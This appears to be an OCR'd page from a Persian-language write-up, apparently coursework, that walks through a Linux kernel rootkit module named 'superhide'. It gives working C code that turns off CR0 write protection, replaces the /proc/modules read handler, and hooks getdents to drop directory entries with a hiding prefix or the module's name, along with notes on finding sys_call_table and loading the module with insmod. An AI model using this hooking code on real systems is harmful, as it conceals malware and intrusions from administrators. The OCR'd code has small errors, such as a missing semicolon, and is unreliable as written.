 ```c
	proc_modules_read_orig = proc_modules_operations->read;
	printk(KERN_INFO "original /proc/modules read @ %p\n", proc_modules_read_orig);
	
	write_cr0(read_cr0() & (~WRITE_PROTECT_FLAG));
	
	// add our new handlers
	proc_modules_operations->read = proc_modules_read_new;

	write_cr0(read_cr0() | WRITE_PROTECT_FLAG);

	printk(KERN_INFO "New syscall in place\n");
	printk(KERN_INFO "New proc/modules read in place\n");

	

	return 0;
}
```


در ادامه کد موبوط به سیستم کال جدیدی که قصد داریم با سیستم کال قبلی عوض کنیم آورده شده است. در این قسمت ابتدا با استفاده از سیستم کال قبلی که در تابع init ذخیره کرده بودیم مشخصات مربوط به فایل ها را میگیریم. سپس درون یک for برای تمامی فایل ها چک میکنیم که اگر اسم فایل با prefix مچ شود و یا اسم فایل برابر با اسم ماژول باشد (در ابتدا توضیح داده شد که این کد قصد داشته که خود ماژول را نیز پنهان کند) تا رسیدن به فایل بعدی مشخصات مربوطه را حذف میکند و سپس سراغ فایل بعدی میرود.

```c
asmlinkage long sys_getdents_new(unsigned int fd, struct linux_dirent __user *dirent, unsigned int count) {
	int boff;
	struct linux_dirent* ent;
	long ret = sys_getdents_orig(fd, dirent, count);
	char* dbuf;
	if (ret <= 0) {
		return ret;
	}
	dbuf = (char*)dirent;
	for (boff = 0; boff < ret;) {
		ent = (struct linux_dirent*)(dbuf + boff);
		printk(ent->d_name)
		if ((strncmp(ent->d_name, HIDE_PREFIX, HIDE_PREFIX_SZ) == 0) // if it has the hide prefix
			|| (strstr(ent->d_name, MODULE_NAME) != NULL)) {     // or if it has the module name anywhere in it
			memcpy(dbuf + boff, dbuf + boff + ent->d_reclen, ret - (boff + ent->d_reclen));
			ret -= ent->d_reclen;
		} else {
			// on to the next entry
			boff += ent->d_reclen;
		}
	}
	return ret;
}
```
از اسکریپت build_and_install برای ساختن فایل های مربوط به پروژه استفاده میکنیم. 
در ابتدای این فایل بررسی میشود که اسکریپت با sudo ران شده است یا خیر. در ادامه یک فایل sysgen.h میسازد که در آن آدرس جدول سیستم کال ها وجود دارد (که با استفاده از دستور smap و سپس grep کردن /Wsys_call_table این ادرس را میگیریم) علاوه بر آن آدرس Wproc_modules_operations را نیز ذخیره میکند که باز مربوط به قسمتی است که در صورت سوال خواسته نشده.
در ادامه دستور make را صدا میکند که با استفاده از آن فایل superhide.c کامپایل میشود. خود Makefile نیز در ادامه آورده شده است.
عد از آن کد superhide.c کامپایل میشود و با استفاده از insmod جزو کرنل ماژول ها لود میکند.
```bash
#!/bin/bash

RET=0
```